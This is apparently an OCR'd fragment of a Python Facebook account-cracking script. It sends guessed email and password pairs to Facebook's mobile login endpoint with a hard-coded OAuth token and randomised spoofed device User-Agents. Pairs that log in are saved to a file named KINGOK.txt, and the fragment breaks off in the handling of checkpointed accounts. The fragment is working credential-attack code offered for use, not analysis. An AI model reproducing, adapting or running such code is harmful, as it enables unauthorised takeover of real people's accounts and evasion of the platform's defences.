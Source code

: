                         li = ['28','29','210']
                        li2 = random.choice(li)
                        zomir = random.choice(['218','219','220','221','222','223','224','225','226','227','217','216','215','214','213','210','209','229','119','120','121','122','123','124'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853','CPH2127', 'CPH2131','PDVM00','CPH2095','CPH2119','PEAT00', 'PEAM00','CPH2137','CPH2125','CPH2065','CPH2121', 'CPH2123','CPH2099','CPH2139', 'CPH2135','CPH2185','SPH2209','CPH2161','PERM00','CPH2109','CPH2113','PDYM20', 'PDYT20','PDNM00', 'PDNT00', 'CPH2089'])
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        headers={
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':"[FBAN/FB4A;FBAV/"+zomir+".0.0.6.119;FBBV/30034644;FBDM/{density=3.02,width=720,height=1544};FBLC/en_US;FBCR/ZONG;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/"+cph+";FBSV/12;FBOP/1;FBCA/armeabi-v7a:armeabi;]",
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
                                'X-FB-HTTP-Engine': 'Liger'
                                }
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[1;32m [AMAN-OK] '+str(uid)+' | '+pas+'\033[1;97m')
                                        open('/sdcard/KINGOK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
              #                          print('\r\r\x1b[38;5;208m [Checkpoint] '+str(uid)+' | '+pas+'\033[1;97m')